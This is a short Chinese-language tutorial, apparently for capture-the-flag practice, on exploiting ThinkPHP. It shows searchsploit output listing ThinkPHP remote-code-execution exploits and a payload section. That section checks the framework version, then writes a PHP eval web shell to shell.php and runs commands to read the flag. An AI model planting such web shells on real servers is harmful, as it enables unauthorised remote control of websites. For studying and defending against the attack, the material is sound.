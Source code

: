 # Thinkphp 漏洞利用

# 00X1 什么是thinkphp
ThinkPHP是一个免费开源的，快速、简单的面向对象的轻量级PHP开发框架
>**什么是web框架？**  
[web框架](https://blog.csdn.net/weixin_42976659/article/details/88187868?ops_request_misc=&request_id=&biz_id=102&utm_term=web%25E6%25A1%2586%25E6%259E%25B6&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-6-88187868.nonecase)  
>**什么是静态与动态网站？**  
[静态与动态网站](https://blog.csdn.net/liangmengbk/article/details/99176845?ops_request_misc=%25257B%252522request%25255Fid%252522%25253A%252522160889557916780296863195%252522%25252C%252522scm%252522%25253A%25252220140713.130102334..%252522%25257D&request_id=160889557916780296863195&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-99176845.first_rank_v2_pc_rank_v29&utm_term=%E5%8A%A8%E6%80%81%E7%BD%91%E7%AB%99%E5%92%8C%E9%9D%99%E6%80%81%E7%BD%91%E7%AB%99%E5%8C%BA%E5%88%AB)

# 00X2 thinkphp 漏洞利用
### 工具
>**在线漏洞查询网站**  
[exploit database](https://www.exploit-db.com)

>**kali**  
searchsploit

```
┌──(sinon㉿kali)-[~]
└─$ searchsploit thinkphp
   
Exploit Title                          |  Path
---------------------------------------- ---------------------------------
ThinkPHP - Multiple PHP Injection RCEs  | linux/remote/48333.rb
ThinkPHP 2.0 - 'index.php' Cross-Site S | php/webapps/33933.txt
ThinkPHP 5.0.23/5.1.31 - Remote Code Ex | php/webapps/45978.txt
ThinkPHP 5.X - Remote Command Execution | php/webapps/46150.txt

```
```
┌──(sinon㉿kali)-[~]
└─$ cd /usr/share/exploitdb/exploits/php/webapps
┌──(sinon㉿kali)-[/usr/…/exploitdb/exploits/php/webapps]
└─$ gedit ***.txt
```
# 00X3 payload
### step1
>/?s=1  
**查看thinkphp版本**
### step2
>echo '\<?php highlight_file(\_\_FILE__);@eval($_POST["shell"]);?>'>shell.php  
**上🐎,验证成功上🐎**  

>echo '\<?php highlight_file(\_\_FILE__);@eval(phpinfo());?>'>info.php  
**查看info页面**

>ls /  
cat /flag  
**常规命令**
